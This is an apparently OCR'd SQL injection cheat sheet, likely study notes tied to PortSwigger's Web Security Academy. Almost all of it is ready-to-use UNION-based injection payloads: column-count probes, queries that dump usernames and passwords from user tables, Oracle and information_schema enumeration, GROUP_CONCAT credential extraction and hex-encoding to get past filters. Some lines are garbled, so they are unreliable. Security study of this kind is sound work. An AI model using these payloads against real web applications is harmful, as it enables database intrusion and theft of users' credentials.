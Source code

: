 ```bash
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
​

# Using a SQL injection UNION attack to retrieve interesting data
' UNION SELECT username, password FROM users--
'


# ORACLE
' UNION SELECT username || '~' || password FROM users--  
https://portswigger.net/web-security/sql-injection/cheat-sheet
'
# Retrieve the list of tables in the Oracle database:
'+UNION+SELECT+table_name,NULL+FROM+all_tables--                                                                         '
# Oracle payload to retrieve the details of the columns in the table.
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_XXX'--
'

# Examining the database in SQL injection attacks
    Syntax for string concatenation.
    Comments.
    Batched (or stacked) queries.
    Platform-specific APIs.
    Error messages.
Database type 	Query
Microsoft, MySQL 	SELECT @@version
Oracle 	SELECT * FROM v$version
PostgreSQL 	SELECT version() 
​

# Listing the contents of the database
SELECT * FROM information_schema.tables
SELECT schema_name FROM information_schema.schemata
SELECT table_name from information_schema.tables where table_schema='mydatabase'
SELECT column_name from information_schema.columns where table_schema='mydatabase' and table_name='mytable'
SELECT user,pass from mydatabase.mytable
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
​
​
'UNION SELECT NULL,GROUP_CONCAT(USER,':',PASS)
'UNION SELECT NULL,GROUP_CONCAT(USER,'0x3a',PASS)
group_concat(username,':',password SEPARATOR '<br>')
CONCAT(USER,':',PASS)
USER||':'||PASS
# If some strings are not allowed, use hex to encode them
echo admin | tr -d '\n' | xxd ps
WHERE USER="0x..."
USE DB.TABLE (SUCH AS MYSQL.USERS) IN CASE OTHER DB IS CURRENTLY IN USE
' ORDER BY 3--
etc.
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
=1 UNION ALL SELECT
1 UNION SELECT
0 union select null,null,null
-1 union select null,null,null
%' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT NULL#
' UNION SELECT NULL//
```